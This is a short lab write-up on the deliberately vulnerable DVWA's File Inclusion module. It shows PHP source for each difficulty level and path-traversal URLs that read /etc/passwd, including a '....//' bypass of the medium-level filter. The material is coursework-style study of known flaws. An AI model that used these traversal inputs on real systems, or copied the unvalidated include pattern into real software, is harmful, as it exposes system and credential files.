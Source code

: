 # FI

## Nivel: `bajo`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```

### vulnerability check

```
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

![check1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/check1.png)

## Nivel: `medio`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

### vulnerability check

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```

![check2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/check2.png)

## Nivel: `alto`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

### vulnerability check


## Nivel: `imposible`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

### vulnerability check


## Referencias

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HTB Academy](https://academy.hackthebox.com/module/77/section/725)
